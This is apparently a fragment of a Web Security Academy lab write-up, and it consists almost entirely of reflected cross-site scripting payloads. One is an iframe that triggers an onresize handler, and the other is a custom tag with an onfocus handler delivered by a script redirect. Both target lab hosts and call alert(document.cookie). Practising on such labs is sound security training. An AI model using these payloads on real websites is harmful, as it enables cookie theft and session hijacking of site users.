 ### Payload using event onresize

```
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>
```

### Payload using HTML custom tag

Payload

```
<xss id=x onfocus=alert(1) tabindex=1>#x
```

Deliver

```
<script>
location = 'https://ac171f701ea6b50a807f36de000900f9.web-security-academy.net/?search=%3Cabc%20id=x%20onfocus=alert(document.cookie)%20tabindex=1%3E#x';
</script>
```
